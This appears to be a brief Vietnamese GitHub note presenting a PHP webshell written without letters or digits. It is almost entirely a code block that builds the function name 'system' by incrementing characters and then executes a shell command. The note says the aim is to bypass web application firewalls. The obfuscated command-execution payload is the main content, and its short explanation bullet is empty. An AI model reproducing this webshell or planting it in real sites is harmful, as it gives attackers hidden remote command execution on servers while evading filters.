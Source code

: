 # PHP webshell with no alphanumeric

Mục tiêu là tạo ra hàm system('lsls') với không kí tự chữ cái nào

```php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //s
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//y
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//s
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//t
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;//e
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//m
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//l
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //s
$____.=$__;

$_=$____;
$___($_);
?>
```

- Tạo ra webshell bằng cách cộng kí tự và tạo ra chuỗi
- Giải thích cơ chế: 
- Tài liệu tham khảo: [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)